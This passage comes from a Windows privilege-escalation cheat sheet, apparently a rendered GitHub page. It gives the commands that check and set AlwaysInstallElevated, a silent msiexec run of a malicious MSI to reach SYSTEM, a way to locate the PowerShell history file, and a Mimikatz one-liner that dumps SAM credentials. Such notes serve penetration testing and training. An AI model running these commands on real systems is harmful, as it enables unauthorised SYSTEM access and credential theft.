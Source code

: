 If `AlwaysInstallElevated` is enabled, it is possible to escalate access to `SYSTEM` using a malicious MSI payload

- AlwaysInstallElevated needs to be enabled (value 1) on:
	- `HKLM\Software\Policies\Microsoft\Windows\Installer`
	- `HKCU\Software\Policies\Microsoft\Windows\Installer`

- Check if it is enabled

```powershell
Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated
Get-ItemProperty -Path "HKCU:\Software\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated
```

- Enable it (requires admin)

```powershell
Set-ItemProperty -Path 'HKLM:\Software\Policies\Microsoft\Windows\Installer' -Name 'AlwaysInstallElevated' -Value 1
Set-ItemProperty -Path 'HKCU:\Software\Policies\Microsoft\Windows\Installer' -Name 'AlwaysInstallElevated' -Value 1
```

- Run malicious MSI payload

```c
msiexec /quiet /qn /i hack.msi
```

This will effectively bypass UAC and run code with `SYSTEM` privileges.


### Sensitive Files
---

- Get Powershell history file
	- Default: `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

```powershell
(Get-PSReadlineOption).HistorySavePath
```


#### SAM and SYSTEM

- SAM file location: `C:\Windows\System32\config`

##### Dump the SAM with Mimikatz

- Mimikatz repository: https://github.com/gentilkiwi/mimikatz
- Mimikatz wiki: https://github.com/gentilkiwi/mimikatz/wiki

```c
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

#### SeBackupPrivilege
